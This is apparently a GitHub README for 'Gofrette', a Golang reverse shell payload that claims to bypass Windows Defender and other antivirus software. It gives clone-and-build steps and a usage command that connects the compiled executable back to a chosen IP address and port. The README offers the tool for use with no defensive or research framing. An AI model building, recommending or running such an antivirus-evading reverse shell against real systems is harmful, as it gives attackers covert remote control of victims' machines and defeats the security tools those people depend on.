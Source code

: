 
<p align="center">
  <a href="" rel="noopener">
 <img width=200px height=200px src="https://cdn-icons-png.flaticon.com/512/1076/1076284.png"> </a>
</p>


# Gofrette

Gofrette is a reverse shell payload developed in Golang that bypasses Windows defender and many others anti-virus.


## Installation

```bash
git clone https://github.com/Enelg52/Gofrette.git
go build gofrette.go
```

## Usage

```bash
.\gofrette.exe -a [ipadress] -p [port]
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.
